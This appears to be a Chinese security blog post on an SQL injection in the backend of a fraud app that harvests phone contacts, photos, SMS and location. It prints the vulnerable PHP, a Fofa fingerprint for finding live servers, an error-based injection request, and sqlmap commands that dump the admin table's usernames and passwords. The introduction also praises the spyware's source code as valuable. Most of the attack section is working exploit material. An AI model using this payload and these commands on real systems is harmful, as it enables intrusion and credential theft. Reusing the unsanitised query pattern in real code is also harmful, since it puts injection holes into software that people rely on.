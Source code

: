 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4MzkwNzI1OQ==&mid=2247486752&idx=1&sn=3825e538392c96bc757dfef7a363f795

#  某新版诈骗双端APP通讯录存在前台SQL注入漏洞  
 菜狗安全   2025-07-12 07:59  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**2025 获取双端txl通讯录、相册、短信、定位、已安装APP信息，代码无加密，搭建简单，安卓端是原生纯源码，iOS端是uniapp纯源码，也是有价值的，很多人都在找能用的.**  
  
**Fofa指纹 : "由Thinkphp5提供高性能框架开发而生！"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
  
看见这后台就懂了，某些ZP的用的  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
框架:ThinkPHP 5.0.24 Debug:true  
##   
## 0x01 漏洞分析&复现  
  
**位于 /api.php 中，通过GET传入ID参数，直接进入SQL查询字句，且未加过滤，导致漏洞产生，其中需POST传入img参数，实际上传的文件后缀被写死.**  
  
****  

```
<?php
header('Access-Control-Allow-Origin:*');
header('Content-Type:text/plain;charset=utf-8');
require('conn.php');


    function imgbc($image)
    {
        $imageName = &#34;25220_&#34;.date(&#34;His&#34;,time()).&#34;_&#34;.rand(1111,9999).'.png';
        if (strstr($image,&#34;,&#34;)){
          $image = explode(',',$image);
        $image = $image[1];
        }
        $path = &#34;./uploads/&#34;.date(&#34;Ymd&#34;,time());
        if (!is_dir($path)){ //判断目录是否存在 不存在就创建
          mkdir($path,0777,true);
        }
        $imageSrc= $path.&#34;/&#34;. $imageName; //图片名字
        $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数
        return&#34;/uploads/&#34;.date(&#34;Ymd&#34;,time()).&#34;/&#34;. $imageName;
    }
    

if(isset($_POST['img'])){
    
    $img = imgbc('data:image/jpg;base64,'.$_POST['img']);
    
    $userid = $_GET['id'];
    
    $sqlUser = &#34;select * from app_user where name = '$userid'&#34;;
    $resultUser = mysqli_query($conn,$sqlUser);
    if ($resultUser->num_rows > 0) {
        $row = $resultUser->fetch_assoc();
        $user_id = $row['id'];
        
        $sql = &#34;INSERT INTO app_xiangce VALUES (null, '&#34;.$user_id.&#34;',null,'&#34;.$img.&#34;', '&#34;.time().&#34;')&#34;;
     
        if ($conn->query($sql) == TRUE) {
            echo&#34;成功&#34;;
        } else {
            echo&#34;Error: &#34; . $sql . &#34;<br>&#34; . $conn->error;
        }
    }else{
         echo&#34;Error: &#34; . $sql . &#34;<br>&#34; . $conn->error;
    }

}

```

  
  
**Payload（爆库）:**  
  

```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1
Host: 192.168.140.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 5

img=1

```

  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
****  
**-T app_admin -C name,password --dump   爆出管理员表的账密**  
## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，获取最新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
